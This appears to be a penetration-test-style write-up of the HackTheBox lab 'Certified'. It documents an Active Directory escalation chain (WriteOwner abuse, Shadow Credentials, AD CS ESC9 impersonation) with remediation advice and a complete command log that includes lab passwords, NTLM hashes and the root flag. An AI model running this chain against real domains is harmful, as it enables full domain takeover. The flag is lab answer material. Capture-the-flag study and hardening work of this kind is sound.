

**Root flag:** `a18b8e34091b726aa857bbd15fdce5ee`

---

## Technical Findings Details

### 1. AD CS Certificate Template Vulnerable to ESC9 (UPN Impersonation) — Critical

| Field                              | Details                                                                                                                                        |
| ----------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------ |
| **CWE**                            | CWE-295: Improper Certificate Validation                                                                                                        |
| **CVSS 3.1 Score**                 | 9.8 — `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H`                                                                                            |
| **Description (Incl. Root Cause)** | The `CertifiedAuthentication` certificate template issued by `certified-DC01-CA` was configured with `CT_FLAG_NO_SECURITY_EXTENSION`, meaning issued certificates do not embed the `szOID_NTDS_CA_SECURITY_EXT` extension binding the certificate to the requester's SID. Combined with write access over a target account's `userPrincipalName` attribute, an attacker can temporarily set a victim account's UPN to match a privileged account name (e.g. `Administrator`), request a certificate as that account, and have the resulting certificate authenticate as the impersonated identity. |
| **Security Impact**                | An attacker with only `GenericWrite`/`GenericAll` over any low-privileged account — as was obtained here over `ca_operator` — can forge a certificate that authenticates as any other account, including Domain Admins, resulting in complete domain compromise. |
| **Affected Host(s)**               | 10.129.231.186 (Domain Controller / CA: `certified-DC01-CA`)                                                                                    |
| **Remediation**                    | - Ensure `CT_FLAG_NO_SECURITY_EXTENSION` is not set on templates used for client authentication, or enforce `StrongCertificateBindingEnforcement` at the domain controller level (registry key `CertificateMappingMethods`) so certificates are strictly validated against the requesting principal's SID regardless of the template flag.<br>- Apply Microsoft's May 2022 and later security updates addressing certificate-based authentication mapping (KB5014754) in full enforcement mode.<br>- Restrict who can modify the `userPrincipalName` attribute on sensitive or service accounts. |
| **References**                     | [SpecterOps: Certified Pre-Owned (ESC9)](https://posts.specterops.io/certified-pre-owned-d95910965cd2), [Certipy Documentation](https://github.com/ly4k/Certipy), [Microsoft KB5014754](https://support.microsoft.com/en-us/topic/kb5014754-certificate-based-authentication-changes-on-windows-domain-controllers-ad2c23b0-15d8-4340-a468-4d4f3b188f16) |

**Evidence:**

```
certipy find -u ca_operator@certified.htb -hashes ... -vulnerable -stdout
→ ESC9: Template has no security extension.

certipy-ad account update ... -user ca_operator -upn Administrator
certipy-ad req -username ca_operator@certified.htb ... -template CertifiedAuthentication
→ Got certificate with UPN 'Administrator'

certipy-ad auth -pfx 'administrator.pfx' ...
→ Got hash for 'administrator@certified.htb': aad3b435b51404eeaad3b435b51404ee:0d5b49608bbce1751f708748f67e2d34
```

---

### 2. `WriteOwner` Rights Enabling Full Group Takeover — Critical

| Field                              | Details                                                                                                                                        |
| ----------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------ |
| **CWE**                            | CWE-269: Improper Privilege Management                                                                                                          |
| **CVSS 3.1 Score**                 | 8.8 — `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H`                                                                                            |
| **Description (Incl. Root Cause)** | The initially provided low-privileged account, `judith.mader`, was granted `WriteOwner` over the `management` security group, with no legitimate business justification identified for this delegation. |
| **Security Impact**                | `WriteOwner` allowed `judith.mader` to make herself the owner of the `management` group, which in turn allowed her to grant herself `FullControl` over the group's DACL and add herself as a member — inheriting every right the group held downstream, kicking off the entire privilege escalation chain. |
| **Affected Host(s)**               | 10.129.231.186 (Domain Controller, `certified.htb`)                                                                                             |
| **Remediation**                    | - Apply least-privilege ACL delegation: `WriteOwner` should be reserved for legitimate object owners or dedicated administrative tiers.<br>- Periodically audit AD ACLs with BloodHound (or equivalent) to detect and remove unintended ownership-control edges, especially on security groups.<br>- Implement a tiered administration model to prevent lower-tier accounts from controlling higher-value group objects. |
| **References**                     | [BloodHound Docs: WriteOwner Abuse](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html), MITRE ATT&CK: T1098 — Account Manipulation |

**Evidence:**

```
bloodyad ... set owner management judith.mader
→ Old owner ... is now replaced by judith.mader on management

dacledit.py -action 'write' -rights 'FullControl' ...
→ DACL modified successfully!
```

---

### 3. `GenericWrite` Rights Enabling Shadow Credentials Attack — High

| Field                              | Details                                                                                                                                        |
| ----------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------ |
| **CWE**                            | CWE-269: Improper Privilege Management                                                                                                          |
| **CVSS 3.1 Score**                 | 8.1 — `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:N`                                                                                            |
| **Description (Incl. Root Cause)** | Members of the `management` group (joined via Finding #2) held `GenericWrite` over the `management_svc` account, allowing arbitrary attribute writes — including the `msDS-KeyCredentialLink` attribute used for Windows Hello for Business / Shadow Credentials. |
| **Security Impact**                | `GenericWrite` allowed a Shadow Credentials attack (via `pywhisker`) to add an attacker-controlled certificate as an authentication method for `management_svc`, without ever knowing or resetting the account's original password. That certificate was exchanged for a Kerberos TGT and, ultimately, the account's NTLM hash — leading directly to a foothold and the user flag. |
| **Affected Host(s)**               | 10.129.231.186 (Domain Controller, `certified.htb`)                                                                                             |
| **Remediation**                    | - Remove unnecessary `GenericWrite` delegations on service accounts, particularly those with further downstream access (WinRM, in this case).<br>- Monitor and alert on writes to the `msDS-KeyCredentialLink` attribute as a detection signal for Shadow Credentials attacks.<br>- Regularly review AD delegation using BloodHound. |
| **References**                     | [Shadow Credentials Attack — SpecterOps/Elad Shamir](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab), [pywhisker (ShutdownRepo)](https://github.com/ShutdownRepo/pywhisker) |

**Evidence:**

```
pywhisker.py ... --target "management_svc" --action "add" --use-ldaps
→ Updated the msDS-KeyCredentialLink attribute of the target object

gettgtpkinit.py -cert-pfx ... certified.htb/management_svc ...
→ Saved TGT to file

getnthash.py -key ... certified.htb/management_svc
→ Recovered NT Hash: a091c1832bcdd4677c28b5a6a1295584
```

---

### 4. `GenericAll` Rights Enabling Repeated Shadow Credentials Compromise — High

| Field                              | Details                                                                                                                                        |
| ----------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------ |
| **CWE**                            | CWE-269: Improper Privilege Management                                                                                                          |
| **CVSS 3.1 Score**                 | 8.8 — `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H`                                                                                            |
| **Description (Incl. Root Cause)** | The `management_svc` account (compromised via Finding #3) was found to hold `GenericAll` — full object control — over the `ca_operator` account, again with no clear legitimate purpose, allowing the same Shadow Credentials technique used previously to be repeated. |
| **Security Impact**                | `GenericAll` allowed the attacker to add Shadow Credentials to `ca_operator` and recover its NTLM hash. Because `ca_operator` had meaningful access relative to the Certificate Authority, this compromise directly enabled the ESC9 UPN impersonation attack (Finding #1) that resulted in full domain compromise. |
| **Affected Host(s)**               | 10.129.231.186 (Domain Controller, `certified.htb`)                                                                                             |
| **Remediation**                    | - Remove unnecessary `GenericAll` delegations, particularly from service accounts onto accounts with elevated or CA-adjacent privileges.<br>- Apply the same Shadow Credentials monitoring/detection recommended in Finding #3.<br>- Treat any account with a name suggestive of elevated function (e.g. `ca_operator`) as a Tier 0 asset requiring stricter ACL review. |
| **References**                     | [BloodHound Docs: GenericAll Abuse](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html) |

**Evidence:**

```
pywhisker.py -u "management_svc" -H '...' --target "ca_operator" --action "add"
→ Updated the msDS-KeyCredentialLink attribute of the target object

getnthash.py -key ... certified.htb/ca_operator
→ Recovered NT Hash: b4b86f45c6018f1b664f70805f45d8f2
```

---

## Remediation Summary

### Short Term

- **Finding #1 (ESC9)** – Enable `StrongCertificateBindingEnforcement` on domain controllers immediately; reissue or reconfigure the `CertifiedAuthentication` template to require the security extension.
- **Finding #2 / #3 / #4 (Excessive ACLs)** – Remove the `WriteOwner` (judith.mader → management), `GenericWrite` (management → management_svc), and `GenericAll` (management_svc → ca_operator) delegations immediately; audit all other accounts for similar unintended edges.
- Rotate credentials/hashes for `judith.mader`, `management_svc`, `ca_operator`, and `Administrator`.

### Medium Term

- Run a full BloodHound collection and review to identify and remediate every abusable ACL path to Tier 0 assets (Domain Admins, Enterprise Admins, the CA server).
- Audit all certificate templates in the environment against the full ESC1–ESC11 misconfiguration classes using Certipy.
- Monitor and alert on `userPrincipalName` and `msDS-KeyCredentialLink` attribute modifications domain-wide.

### Long Term

- Implement a tiered administrative model to prevent standard user accounts from ever holding control over higher-privilege objects or CA-related accounts.
- Establish recurring (e.g. quarterly) Active Directory and AD CS security audits as part of routine security operations.
- Apply Microsoft's certificate-based authentication hardening updates in full enforcement mode across all domain controllers.

---

## Lessons Learned / Skills Demonstrated

**Active Directory ACL Enumeration:** Used BloodHound to systematically map object-level control relationships from a single low-privileged credential, identifying a full attack path to Domain Admin via group ownership and Shadow Credentials.

**WriteOwner / DACL Manipulation:** Leveraged `bloodyAD` and Impacket's `dacledit.py` to take ownership of a group object and grant full control, then joined the group to inherit further rights.

**Shadow Credentials Attack Chain:** Used `pywhisker` to add key-trust credentials to two separate accounts, exchanged the resulting certificates for Kerberos TGTs with PKINITtools, and recovered NTLM hashes via U2U requests — all without ever needing to reset a password or crack a hash offline.

**AD CS Enumeration and ESC9 Exploitation:** Used Certipy to enumerate certificate authorities and templates for known ESC misconfigurations, identified an ESC9 vulnerability, and executed the full UPN-swap-and-restore attack to impersonate the Administrator via a forged certificate.

**Multi-Stage Privilege Escalation:** Chained four distinct AD misconfigurations across group ownership, two separate Shadow Credentials compromises, and a certificate template flaw into full domain compromise.

---

## Appendix

### A. Finding Severity Definitions

| Rating       | Definition                                                                                     |
| ------------ | ----------------------------------------------------------------------------------------------- |
| **Critical** | Exploitation leads to full system/domain compromise with little to no effort or prerequisites. |
| **High**     | Exploitation causes substantial harm to confidentiality, integrity, or availability.           |
| **Medium**   | Exploitation has a moderate impact, or a high-impact issue with limited exposure.              |
| **Low**      | Exploitation causes minimal impact to operations.                                              |
| **Info**     | An observation or improvement opportunity; not itself a vulnerability.                         |

### B. Exploited Hosts

| Host              | Method                                                             | Notes                                     |
| ------------------ | ----------------------------------------------------------------------- | -------------------------------------------- |
| `10.129.231.186`    | `WriteOwner` abuse (judith.mader → management)                          | Group ownership and full control obtained    |
| `10.129.231.186`    | `GenericWrite` abuse + Shadow Credentials (management → management_svc) | WinRM access as `management_svc`, user flag  |
| `10.129.231.186`    | `GenericAll` abuse + Shadow Credentials (management_svc → ca_operator)  | NTLM hash for `ca_operator` recovered        |
| `10.129.231.186`    | AD CS ESC9 UPN impersonation                                             | Forged certificate authenticating as Administrator |
| `10.129.231.186`    | Pass-the-hash as `Administrator`                                         | Root flag captured                           |

### C. Compromised Users / Credentials

| Username         | Method                                                          | Notes                                          |
| ------------------ | -------------------------------------------------------------------- | ------------------------------------------------- |
| `judith.mader`      | Provided initial credential                                            | `judith09` — starting foothold                    |
| `management` (group)| `WriteOwner` → `FullControl` DACL modification                       | Ownership and control taken, `judith.mader` added |
| `management_svc`   | `GenericWrite` abuse via Shadow Credentials (pywhisker)                | NTLM hash `a091c1832bcdd4677c28b5a6a1295584`; user flag |
| `ca_operator`       | `GenericAll` abuse via Shadow Credentials (pywhisker)                  | NTLM hash `b4b86f45c6018f1b664f70805f45d8f2`      |
| `Administrator`     | AD CS ESC9 UPN impersonation via `ca_operator`                          | NTLM hash `0d5b49608bbce1751f708748f67e2d34`; root flag |

### D. Command Reference Log

```bash
sudo nmap 10.129.231.186 -sC -sV -Pn --disable-arp-ping
echo "10.129.231.186 certified.htb dc01.certified.htb" | sudo tee -a /etc/hosts
bloodhound-python -d certified.htb -u 'judith.mader' -p 'judith09' -dc 'dc01.certified.htb' -c all -ns 10.129.231.186
sudo neo4j console
bloodhound
bloodyad --host "10.129.231.186" -d "certified.htb" -u "judith.mader" -p "judith09" set owner management judith.mader
python3 /usr/share/doc/python3-impacket/examples/dacledit.py -action 'write' -rights 'FullControl' -inheritance -principal 'judith.mader' -target 'management' "certified.htb"/"judith.mader":'judith09'
net rpc group addmem "management" "judith.mader" -U "certified.htb"/"judith.mader"%'judith09' -S "dc01.certified.htb"
python3 pywhisker.py -d "certified.htb" -u "judith.mader" -p "judith09" --target "management_svc" --action "add" --use-ldaps
python3 gettgtpkinit.py -cert-pfx ~/pywhisker/pywhisker/YrYIu2Cf.pfx certified.htb/management_svc -pfx-pass 'kNthXx9kqDqmupUecqQm' management_svc.ccache
export KRB5CCNAME=management_svc.ccache
python3 getnthash.py -key edf1ee051a0edd6a330354600414eae194e811008581b6c819d6646a4b1d632a certified.htb/management_svc
evil-winrm -i certified.htb -u management_svc -H a091c1832bcdd4677c28b5a6a1295584
python pywhisker.py -d "certified.htb" -u "management_svc" -H 'a091c1832bcdd4677c28b5a6a1295584' --target "ca_operator" --action "add"
python3 gettgtpkinit.py -cert-pfx ~/lJTgEkSK.pfx certified.htb/ca_operator -pfx-pass 'opeLmH9izVcMlodRxqgE' ca_operator.ccache
export KRB5CCNAME=ca_operator.ccache
python3 getnthash.py -key 3daf82a78183678e915a113c6f7ae242ed446862a8d3097c663e59d787c5783e certified.htb/ca_operator
nxc ldap certified.htb -u management_svc -H a091c1832bcdd4677c28b5a6a1295584 -M adcs
certipy find -u ca_operator@certified.htb -hashes b4b86f45c6018f1b664f70805f45d8f2 -vulnerable -stdout
certipy-ad account update -username management_svc@certified.htb -hashes a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn Administrator
certipy-ad req -username ca_operator@certified.htb -hashes b4b86f45c6018f1b664f70805f45d8f2 -ca certified-DC01-CA -template CertifiedAuthentication -debug
certipy-ad account update -username management_svc@certified.htb -hashes a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn ca_operator@certified.htb
certipy-ad auth -pfx 'administrator.pfx' -domain 'certified.htb' -dc-ip 10.129.231.186 -debug
evil-winrm -i certified.htb -u Administrator -H 0d5b49608bbce1751f708748f67e2d34
cd ..
cd Desktop
ls
cat root.txt
```

### E. References

- [SpecterOps: Certified Pre-Owned (Certificate Escalation techniques, including ESC9)](https://posts.specterops.io/certified-pre-owned-d95910965cd2)
- [Shadow Credentials Attack — SpecterOps/Elad Shamir](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab)
- [MITRE ATT&CK: T1098 — Account Manipulation](https://attack.mitre.org/techniques/T1098/)
- [MITRE ATT&CK: T1649 — Steal or Forge Authentication Certificates](https://attack.mitre.org/techniques/T1649/)
- [MITRE ATT&CK: T1550.002 — Pass the Hash](https://attack.mitre.org/techniques/T1550/002/)
- [Official HackTheBox Machine Page — Certified](https://app.hackthebox.com/machines/Certified)
- [Certipy (ly4k)](https://github.com/ly4k/Certipy)
- [pywhisker (ShutdownRepo)](https://github.com/ShutdownRepo/pywhisker)
- [PKINITtools (dirkjanm)](https://github.com/dirkjanm/PKINITtools)
- [Microsoft KB5014754 — Certificate-Based Authentication Changes on Windows Domain Controllers](https://support.microsoft.com/en-us/topic/kb5014754-certificate-based-authentication-changes-on-windows-domain-controllers-ad2c23b0-15d8-4340-a468-4d4f3b188f16)

> **Note on CVEs:** Findings #2–#4 are Active Directory ACL misconfigurations rather than flaws in a specific versioned software component, so no CVE identifiers apply to them. Finding #1 (ESC9) is a certificate template/AD CS design weakness first publicly documented by SpecterOps; it is not tracked under an individual CVE but is a well-known, named attack technique (ESC9) within the certificate escalation research.
